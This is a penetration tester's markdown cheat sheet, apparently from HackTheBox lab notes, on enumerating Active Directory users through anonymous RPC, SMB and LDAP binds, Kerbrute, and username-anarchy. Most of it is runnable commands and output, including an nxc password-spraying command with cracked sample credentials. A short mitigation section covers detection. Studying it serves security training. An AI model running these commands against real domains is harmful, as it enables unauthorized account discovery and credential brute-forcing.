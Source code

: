 
## Anonymous  enumeration:

### valid users (rpc, smb)
```shell-session
$ enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

$ rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers 
rpcclient $> querydominfo
rpcclient $> getdompwinfo

$ nxc smb 172.16.5.5 --users
```

clean nxc output:
```
cat users.tmp | awk '{print $5}'
cat users.txt |cut -d '\' -f 2 > users_valid.txt #remove "domain/" part

```

### LDAP

`windaysearch users`
```shell-session
$ ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

`prepare ldapsearch`
```
ldapsearch -h 172.16.5.5 -x -s base namingcontexts
# LOOK FOR DN
```
![[Pasted image 20250731155800.png]]
#### querying ldap:`
```
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL"  <query> <filters>
```

people
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=people))" SamAccountName|grep samAccountName| awk `{print $2}` > userlist.ldap.txt
```
remove guest/machine accounts

```shell-session
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"
```
---
## using kerbrute and OSINT info

### from osint:
create list with discovered names, add to vim

create multi format names with username unarchy
```
~/linux/username-unarchy/username-unarchy -i <file>
```
## kerbrute to find valid users
find valid users of user list with kerbrute
```
kerbrute userenum --dc IP --domain DN <file>
```

brute force user list with password list
```
└─$ nxc smb 10.129.202.85 -u namesformats_totest.txt -p /usr/share/wordlists/fasttrack.txt --continue-on-success |grep '[+]'
```
EXAMPLE
```
$ nxc smb 10.129.202.85 -u names.txt -p /usr/share/wordlists/fasttrack.txt --continue-on-success |grep '[+]'
SMB                      10.129.202.85   445    ILF-DC01         [+] ILF.local\cjohnson:Welcome1212 
SMB                      10.129.202.85   445    ILF-DC01         [+] ILF.local\jmarston:P@ssword! (Pwn3d!)

```

- point Kerbrute at the DC we found earlier and feed it a wordlist.
```shell-session
$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users.txt

2021/11/17 23:01:46 >  Using KDC(s):
2021/11/17 23:01:46 >   172.16.5.5:88
2021/11/17 23:01:46 >  [+] VALID USERNAME:       jjones@INLANEFREIGHT.LOCAL
2021/11/17 23:01:46 >  [+] VALID USERNAME:       sbrown@INLANEFREIGHT.LOCAL
```

---

## EXAMPLE TOOL OUTPUTS


`LDAP Anonymous bind abuse`
```
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

guest
ACADEMY-EA-DC01$
ACADEMY-EA-MS01$
ACADEMY-EA-WEB01$
htb-student
avazquez
pfalcon
<SNIP>
```

we can specify anonymous access by providing a blank username with the `-u` flag and the `-U` flag to tell the tool to retrieve just users.

`windapsearch`
```shell-session
$ windapsearch --dc-ip 172.16.5.5 -u "" -U

[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+]	Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]	...success! Binded as: 
[+]	 None

[+] Enumerating all AD users
[+]	Found 2906 users: 

cn: Guest

cn: Htb Student
userPrincipalName: htb-student@inlanefreight.local

cn: Annie Vazquez
userPrincipalName: avazquez@inlanefreight.local
<SNIP>
```


`Kerbrute User Enumeration`
```shell-session
 kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 02/17/22 - Ronnie Flathers @ropnop

2022/02/17 22:16:11 >  Using KDC(s):
2022/02/17 22:16:11 >  	172.16.5.5:88

2022/02/17 22:16:11 >  [+] VALID USERNAME:	 jjones@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 sbrown@inlanefreight.local
2022/02/17 22:16:11 >  [+] VALID USERNAME:	 tjohnson@inlanefreight.local
<SNIP>
```

# mitigation
We've checked over 48,000 usernames in just over 12 seconds and discovered 50+ valid ones. Using Kerbrute for username enumeration will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768). This will only be triggered if [Kerberos event logging](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging) is enabled via Group Policy. Defenders can tune their SIEM tools to look for an influx of this event ID, which may indicate an attack. If we are successful with this method during a penetration test, this can be an excellent recommendation to add to our report.

If we are unable to create a valid username list using any of the methods highlighted above, we could turn back to external information gathering and search for company email addresses or use a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to mash up possible usernames from a company's LinkedIn page.

ports used by the tools:

| Tool      | Ports                                             |
| --------- | ------------------------------------------------- |
| nmblookup | 137/UDP                                           |
| nbtstat   | 137/UDP                                           |
| net       | 139/TCP, 135/TCP, TCP and UDP 135 and 49152-65535 |
| rpcclient | 135/TCP                                           |
| smbclient | 445/TCP                                           |
